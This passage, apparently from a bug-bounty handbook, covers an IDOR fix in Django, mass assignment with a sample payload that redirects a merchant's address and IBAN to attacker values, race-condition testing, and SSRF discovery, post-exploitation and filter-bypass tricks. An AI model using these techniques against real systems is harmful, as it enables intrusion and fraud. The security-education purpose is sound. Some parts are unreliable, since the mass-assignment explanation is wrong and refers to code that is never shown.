    except Message.DoesNotExist:
        respData = build_response_object(error_message="No message matches query.")
        return Response(respData, status=status.HTTP_400_BAD_REQUEST)
    
    if message.from_user.id != request.user.id and message.to_user.id != request.user.id:
        respData = build_response_object(error_message="Unauthorized to delete message.")
        return Response(respData, status=status.HTTP_403_FORBIDDEN)
    
    message.trash = True
    message.save()
    data = {"status": "ok"}
    respData = build_response_object(data=data)
    return Response(respData)
```


Here's a step-by-step explanation:

```python
def delete(self, request, message_id):
    try:
```

The `user_id` is now retrieved from the `user` parameter in the request or falls back to the `request.user.id` if not provided:

```python
user_id = request.GET.get('user', request.user.id)
```

The `Message.objects.get()` method now uses a different order of parameters to avoid the potential vulnerability:


```python

message = Message.objects.get(Q(id=message_id), Q(from_user=request.user) | Q(to_user=request.user))
```


This new order ensures that the `message_id` is first matched, and then the message object is checked to ensure that either `from_user` or `to_user` matches the authenticated user (`request.user`).

Two new lines have been added to check if the authenticated user is authorized to delete the message:


```python

if message.from_user.id != request.user.id and message.to_user.id != request.user.id:
            respData = build_response_object(error_message="Unauthorized to delete message.")
            return Response(respData, status=status.HTTP_403_FORBIDDEN)
```


If the authenticated user is neither the sender nor the recipient of the message, a `403 Forbidden` response is returned to indicate that the user is not authorized to delete the message.

```python

message.trash = True
message.save()
        data = {"status": "ok"}
        respData = build_response_object(data=data)
        return Response(respData)
```


### <mark style="color:red;">Mass Assignment</mark>

Mass Assignment vulnerabilities are a type of security vulnerability that can occur in web applications when user input is not properly validated or filtered before being assigned to object attributes in the server-side code.

Here's an example of how a Mass Assignment vulnerability can be exploited:

```python
class UserProfile(models.Model):
    user = models.OneToOneField(User, on_delete=models.CASCADE)
    bio = models.TextField()

def update_profile(request):
    if request.method == 'POST':
        user_profile = UserProfile.objects.get(user=request.user)
        user_profile.bio = request.POST.get('bio')
        user_profile.save()
    # ...
```

In the above code snippet, the `update_profile` function retrieves the `UserProfile` object associated with the current user and updates its `bio` attribute with the value provided in the POST request.

If an attacker can manipulate the `bio` parameter in the POST request, they could potentially update the `bio` of other users without proper authorization. For example, if an attacker sends a POST request with `bio="Hacked by Evil User!"`, the server would update the `bio` of any user whose profile is retrieved by the `UserProfile.objects.get(user=request.user)` query.

In this updated version, the `UserProfileForm` class defines the fields that can be updated and automatically validates the input data before saving the changes to the database. This prevents Mass Assignment vulnerabilities by ensuring that only the intended fields are updated.


**Sample scenario**

Creating a merchant

```php
POST /v1/merchant/shop-account/

{
  "ip": [
    "127.0.0.1"
  ],
  "address": "https://example.com",
  "name": "last",
  "iban": "IR320570310480001016217001",
  "acceptorCode": "123123123"
}
```

Response

```php
GET /v1/merchant/shop-account/625e95ae0e56254e76fd1079
{
"data": {
"_id": "625e95ae0e56254e76fd1079",
"active": false,
"autoSettle": false,
"ip": [
"127.0.0.1"
],
"wage": 0,
"status": "PENDING",
"address": "https://example.com",
"name": "last",
"iban": "IR320570310480001016217001",
"__v": 0
},
"success": true,
"message": ""
}
```

Attack Steps:

1. The attacker creates their merchant account (let's say `attackerMerchantId`).
2. The attacker intercepts the `POST /v1/merchant/shop-account/` request and replace the `_id` value with the target merchant ID (`targetMerchantId`).
3. If the server does not properly validate the ownership of the merchant account, it might update the parameters of the target merchant with the attacker's data.

Sample Attack Payload:

```php
POST /v1/merchant/shop-account/targetMerchantId

{
  "ip": [
    "127.0.0.1"
  ],
  "address": "https://attacker.com",
  "name": "Attacker's Shop",
  "iban": "ATTACKER_IBAN",
  "acceptorCode": "123123123"
}

```

If the server does not validate the user's authorization to modify the target merchant account, the attacker might be able to update the target merchant's details. To prevent this attack, the server should validate that the authenticated user owns the merchant account being modified.


### <mark style="color:red;">Race Condition</mark>

A race condition bug is a type of software bug that occurs when two or more threads or processes access shared data and make conflicting modifications to it, without adequate controls in place to prevent or handle these conflicts. This can lead to unpredictable and undesirable behavior in the software.

For example, a race condition bug in an authentication system could allow an attacker to bypass login controls and access a user's account without knowing their password.

To identify race condition bugs, a bug bounty hunter might use a variety of techniques, such as fuzzing, code review, and manual testing.

There are several common approaches to finding race condition bugs in software:

1. **Static Analysis:**

* Use tools like static analyzers, linters, and code review tools to scan the codebase for potential race conditions.
* Look for patterns like:
  * Unprotected shared data structures
  * Unprotected critical sections
  * Synchronization primitives not used correctly
  * Incorrect order of lock acquisition

2. **Dynamic Analysis:**

* Instrument the code with runtime checks to detect race conditions.
* Tools like ThreadSanitizer, Valgrind, and Purify can detect data races.
* Instrument code to log accesses to shared variables and check for inconsistent access patterns.

3. **Fuzzing:**

* Use fuzzing techniques to generate random inputs and test the program for race conditions.
* Tools like AFL, libFuzzer, and American Fuzzy Lop can be used for fuzzing.
* Fuzzing can uncover complex interactions between threads and shared data.

4. **Concurrency Testing:**

* Write test cases that cover concurrency scenarios explicitly.
* Use tools like JCStress, ConTest, or Porthole to test concurrent code.
* Test cases should stress race conditions, deadlocks, and other concurrency bugs.

5. **Debugging:**

* Use debuggers to step through code and examine thread interleavings.
* Instrument code with logging statements to track variable accesses and thread states.
* Use breakpoints and watch expressions to pause execution and inspect data.

Some additional tips for finding race conditions:

* Avoid global variables and shared state whenever possible.
* Use thread-safe data structures and synchronization primitives.
* Ensure proper lock acquisition and release in critical sections.
* Be mindful of the order of operations and minimize shared state.
* Perform thorough testing, including race condition testing and concurrency testing.

Finding race conditions is a complex task that requires a combination of static analysis, dynamic analysis, fuzzing, concurrency testing, and debugging techniques. The specific approach depends on the complexity of the codebase and the desired level of coverage.

Several types of race conditions occur in software, including:

1. **Read-write race conditions**: These occur when two or more threads or processes attempt to read and write to the same shared data simultaneously. This can lead to unpredictable behavior, such as data corruption or inconsistent state.
2. **Write-write race conditions**: These occur when two or more threads or processes attempt to write to the same shared data simultaneously. This can lead to data corruption or inconsistent state.
3. **Read-read race conditions**: These occur when two or more threads or processes attempt to read the same shared data simultaneously. While this type of race condition is less likely to cause data corruption or inconsistent state, it can still lead to unpredictable behavior if the data is modified by another thread or process while it is being read.
4. **Ordering race conditions**: These occur when the order in which operations are executed affects the behavior of the program. For example, if two threads or processes both attempt to acquire a lock on a shared resource, the order in which they acquire the lock affects the outcome of the program.
5. **Time-of-check-to-time-of-use (TOCTOU) race conditions**: These occur when a program checks the state of a resource at one point in time, and then assumes that the state of the resource has not changed by the time it is used. This can lead to security vulnerabilities, such as privilege escalation or unauthorized access.


#### Methodology

1. **Identify State-Changing Requests with Limitations:**
   * Examine the application's functionality and identify any state-changing requests that are subject to limitations.
   * Examples of limitations include:
     * Limited number of trials or uses (e.g., discount coupons, limited-time offers)
     * Limited resources (e.g., limited seats in a conference, limited inventory)
     * Limited access to resources (e.g., admin-only features, user-specific resources)
2. **Use BurpSuite Turbo Intruder:**
   * Launch BurpSuite and navigate to the "Intruder" tab.
   * Select the state-changing request (e.g., POST request for adding a member to a group) and configure the Intruder attack.
   * Set the payload position to the parameter that represents the state change (e.g., the group ID or user ID).
   * Configure the payload type to "simple list" and provide a list of potential values for the state change (e.g., a list of valid group IDs or user IDs).
   * Configure the Intruder attack to use multiple threads for faster execution.
   * Start the Intruder attack and observe the results.
3. **Analyze Responses:**
   * After the Intruder attack is complete, examine the responses from the server.
   * Look for inconsistencies in the server's behavior when multiple requests are sent with the same state change payload.
   * If the server responds differently to the same state change, it may indicate a potential race condition bug.
4. **Test Concurrency:**
   * If you suspect a race condition bug, test the application's concurrency by sending multiple requests simultaneously with the same state change payload.
   * Use tools like Postman or cURL to simulate concurrent requests.
   * Observe the server's response and check for any unexpected behavior or inconsistencies.
5. **Validate Fixes:**
   * Once a race condition bug is found, validate the fix by testing it with multiple requests and ensuring that the server's behavior remains consistent.
   * Use tools like JMeter or Apache Bench to simulate high-traffic scenarios.
   * Perform thorough testing to ensure the bug is fully fixed and no regressions occur.


### <mark style="color:red;">Same Pattern Vulnerability</mark>

A same-pattern vulnerability is a type of security issue that occurs when multiple assets within a company's infrastructure (or even in other companies) are susceptible to the same attack pattern. This means that if a vulnerability is discovered in one asset, it is likely that the same vulnerability exists in other assets as well, making them vulnerable to similar exploits.

#### Methodology&#x20;

1. Identify Potential Vulnerabilities:
   * Examine the application's functionality and identify any potential vulnerabilities that can be exploited.
   * Focus on vulnerabilities that have a similar pattern across different assets or applications.
2. Prepare HTTP Packets:
   * Use tools like Burp Suite or ZAP to capture HTTP packets from the target application.
   * Analyze the captured packets to identify any patterns or anomalies that can be exploited.
   * Modify the captured packets to include additional headers or parameters that may be required by the target application.
3. Attack Other Assets:
   * Use tools like `meg` or `nuclei` to send the modified HTTP packets to other assets or applications that are related to the target application.
   * These tools can be configured to send the packets to a list of URLs or perform a brute-force attack to find similar assets.
4. Analyze Responses:
   * Examine the responses from the other assets or applications to identify any differences or inconsistencies.
   * Look for error messages, unexpected behavior, or server-side differences that could indicate potential vulnerabilities.
5. Validate Fixes:
   * Once a vulnerability with a similar pattern is found, validate the fix by testing it with the modified HTTP packets.
   * Use tools like JMeter or Apache Bench to simulate high-traffic scenarios.
   * Perform thorough testing to ensure the bug is fully fixed and no regressions occur.

Tools like `meg` and `nuclei` can be used to automate the process of sending HTTP packets to a list of URLs or performing a brute-force attack. However, it's essential to have a good understanding of the target application and its behavior to identify potential vulnerabilities effectively.


### <mark style="color:red;">SSRF Discovery and Post Exploitation</mark>

### SSRF Discovery Methodology

1. **Identify HTTP Request-Generating Functionalities**
   * Look for features that force the server to send HTTP requests, such as import/export functions, file uploads, API calls, URL redirection, etc.
2. **Hidden Parameter Discovery**
   * Thoroughly examine application requests and responses to uncover hidden parameters.
   * Work manually to identify potential SSRF-prone parameters.
3. **Test File Uploads for SSRF via SVG**
   * For file upload functionalities, change the content type to `image/svg+xml`.
   * SVG files can sometimes embed external images or resources, potentially leading to SSRF.
4. **Investigate PDF Generators, HTML, and Message Boxes**
   * Inspect PDF generators, HTML content, and message boxes that could be transformed or rendered on the server side.
   * These may provide avenues for triggering SSRF vulnerabilities.
5. **Fuzz Parameters, Body, and Headers**
   * Use fuzzing techniques to search for SSRF vulnerabilities in parameters, request body, and headers.
   * Tools like [Collaborator Everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968) and Burp Suite's Auto-Repeater extension can automate this process.
6. **Manually Analyze URL-like Parameters**
   * Scrutinize parameters that resemble URLs, as these could be potential SSRF vulnerability candidates.
   * Manually test these parameters with various URL inputs.

### SSRF Post-Exploitation

1. **Retrieve Sensitive Data**
   * Use the SSRF vulnerability to access sensitive data from internal systems, such as database servers or configuration files, by forcing the vulnerable server to make requests to these resources.
2. **Scan Internal Networks**
   * Leverage SSRF to perform port scanning and discover services running on the internal network.
3. **Access Internal Services**
   * Exploit SSRF to access and interact with services running on the internal network, which may expose additional vulnerabilities or sensitive information.
4. **Pivot into the Internal Network**
   * Utilize the SSRF vulnerability as a pivot point to further penetrate the internal network and compromise other systems.
5. **Data Exfiltration**
   * Use SSRF to exfiltrate data from the target system, potentially accessing sensitive information.
6. **Relay Requests**
   * Leverage SSRF to relay requests through the server, potentially allowing access to resources that would otherwise be unreachable.
7. **Command Injection**
   * In some cases, SSRF vulnerabilities can be combined with other vulnerabilities, such as command injection, to execute arbitrary commands on the server or other internal hosts.

<figure><figcaption></figcaption></figure>

#### Bypasses and Tricks

### SSRF Discovery Methodology

Follow the steps outlined in the previous response for discovering SSRF vulnerabilities, including:

1. Identify HTTP Request-Generating Functionalities
2. Hidden Parameter Discovery
3. Test File Uploads for SSRF via SVG
4. Investigate PDF Generators, HTML, and Message Boxes
5. Fuzz Parameters, Body, and Headers
6. Manually Analyze URL-like Parameters

### SSRF Post-Exploitation Bypasses and Tricks

After discovering an SSRF vulnerability, you can attempt various bypasses and tricks to further exploit the vulnerability and access additional resources:

1. **Fuzz Subdomains and IPs**
   * Use tools like ffuf, wfuzz, or Burp Suite to fuzz for subdomains and IP addresses that may be accessible via the SSRF vulnerability.
   * Try common and unexpected subdomain/IP variations (e.g., `ffuf -w subdomains.txt -u http://example.com/api/v1/fetch?url=FUZZ`).
2. **Persistent Fuzzing**
   * Continuously fuzz various aspects of the application (parameters, headers, body) to discover additional SSRF entry points or bypass filters.
   * Use tools like Collaborator Everywhere and Burp Suite's Auto-Repeater to automate the fuzzing process.
3. **Access Forbidden URLs (403)**
   * Attempt to access URLs that return a 403 Forbidden HTTP status code.
   * Bypass techniques like adding a trailing slash, changing the HTTP method, or using redirects may allow access and reveal SSRF vulnerabilities.
4. **Chain Open Redirect with SSRF**
   * If an open redirect vulnerability exists, try to chain it with the SSRF vulnerability to bypass restrictions and escalate the attack severity.
   * For example, redirect to an internal resource and then fetch it via the SSRF vulnerability.
5. **Use a Domain Pointing to the Internal IP**
   * Configure a domain to point to an internal IP address, and then attempt to fetch resources from that domain using the SSRF vulnerability.
   * This can help bypass restrictions on accessing internal resources.
6. **Employ Other IP Representatives**
   * Use alternative IP representations, such as hexadecimal, octal, or CIDR notation, to evade detection and bypass filtering mechanisms.
7. **Redirect Bypass Methods for Various Schemes**
   * Attempt to bypass restrictions on redirects by using different URL schemes (e.g., `data:`, `file:`, `gopher://`).
   * For example, use a URL like `http://example.com/?u=gopher://example.com` to bypass filters blocking the `gopher://` scheme.
8. **DNS Rebinding**
   * Exploit DNS rebinding to access internal resources or execute arbitrary JavaScript on the victim's behalf.
   * Bind a domain to your attacker-controlled IP address, forcing the application to send requests to your IP and bypass filters.


